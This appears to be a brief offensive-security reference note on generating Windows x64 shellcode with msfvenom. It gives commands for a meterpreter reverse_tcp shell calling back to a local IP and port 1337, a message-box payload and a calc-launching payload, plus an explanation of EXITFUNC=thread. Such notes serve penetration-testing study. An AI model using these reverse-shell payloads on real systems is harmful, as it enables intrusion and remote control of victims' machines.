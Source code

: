 ```yaml
---
description: 06/08/2022
---
```


# 🐚 Generating Shellcode w/ MSFVenom

## Examples

### Reverse Shells

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.76.128 LPORT=1337 -f c
```

### Windows Message Box

```
msfvenom -p windows/x64/messagebox EXITFUNC=thread -f c
```

### "Pop Calc"

```
msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=thread -f c
```

## Notes

{% embed url="https://www.hacking-tutorial.com/tips-and-trick/what-is-metasploit-exitfunc/" %}

Why `EXITFUNC=thread`? It will specify a DLL and function to call when the payload is complete.&#x20;

`thread` is the most used in exploitation scenarios where the exploited process runs the shellcode in a subthread and upon exiting this thread will result in a working application/system (clean exit).
